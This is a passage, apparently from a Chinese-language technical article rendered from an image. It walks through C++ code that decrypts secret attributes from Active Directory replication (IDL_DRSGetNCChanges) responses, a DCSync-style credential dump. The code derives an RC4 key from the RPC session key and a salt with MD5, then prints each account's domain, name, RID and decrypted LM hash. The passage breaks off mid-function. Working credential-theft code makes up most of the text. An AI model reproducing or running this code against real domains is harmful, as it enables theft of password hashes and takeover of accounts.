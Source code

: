 ```c++
				toFree = pAVal->pVal;
				if (pAVal->pVal = (UCHAR*)MIDL_user_allocate(realLen))
				{
					RtlCopyMemory(pAVal->pVal, encrypted->EncryptedData, realLen);
					pAVal->valLen = realLen;
					status = TRUE;
					MIDL_user_free(toFree);
				}
			}
			else wprintf(L"[-] RtlEncryptDecryptRC4 Error.\n");
		}
		else wprintf(L"[-] Decrypt_pAVal Error: No Valid Data.\n");
	}
	else wprintf(L"[-] Decrypt_pAVal Error: No Session Key.\n");
	return status;
}
```

该函数主要完成以下工作：

1. 从当前 RPC 连接中获取关联的会话密钥（在创建 RPC 绑定时获取）。
2. 从 PENCRYPTED_PAYLOAD 结构的属性值 pVal 中获取 Salt 盐值。
3. 通过 MD5 算法加密会话密钥（SessionKey），创建对属性值进行解密的密钥。
4. 使用 RC4 流密码算法和 SessionKey 生成的密钥解密从 Checksum 地址开始的 valLen - 16 个字节，也就是解密整个 Checksum + EncryptedData 的部分。
5. 用解密后的 EncryptedData 部分替换 pVal 值，并为 valLen 的值缩减 20 个字节。

至此，成功为 IDL_DRSGetNCChanges 响应解密了响应消息中的机密属性值。

### 描述转储结果

完成解密后，将继续对响应中的 PrefixTableSrc 和 pObject 中的 AttrBlock 调用自定义函数 DescribeUser，用于返回转储结果。该函数定义如下。

```c++
void DescribeUser(SCHEMA_PREFIX_TABLE* pPrefixTable, ATTRBLOCK* pAttrBlock, LPCWSTR szSrcDomain)
{
    DWORD rid = 0;
    PVOID objectSid;
    PBYTE encodedUnicodePwd;
    DWORD encodedUnicodePwdSize;
    PVOID sAMAccountName;
    DWORD sAMAccountNameSize;
    PVOID dBCSPwd;
    DWORD dBCSPwdSize;

    if (GetAttrValue(pPrefixTable, pAttrBlock, szOID_ANSI_objectSid, &objectSid, NULL))
    {
        rid = *GetSidSubAuthority(objectSid, *GetSidSubAuthorityCount(objectSid) - 1);
        if (GetAttrValue(pPrefixTable, pAttrBlock, szOID_ANSI_unicodePwd, &encodedUnicodePwd, &encodedUnicodePwdSize))
        {
            // Print domain name.
            wprintf(L"%s\\", szSrcDomain ? szSrcDomain : L"");
            // Print sAMAccountName.
            if (GetAttrValue(pPrefixTable, pAttrBlock, szOID_ANSI_sAMAccountName, &sAMAccountName, &sAMAccountNameSize))
                wprintf(L"%.*s:", sAMAccountNameSize / sizeof(wchar_t), (PWSTR)sAMAccountName);
            // Print rid.
            printf("%d:", rid);
            // Decrypt and print LM Hash.
            if (GetAttrValue(pPrefixTable, pAttrBlock, szOID_ANSI_dBCSPwd, &dBCSPwd, &dBCSPwdSize))
            {
                DecryptPwd(dBCSPwd, dBCSPwdSize, rid, 0);
                wprintf(L":");
            }
```
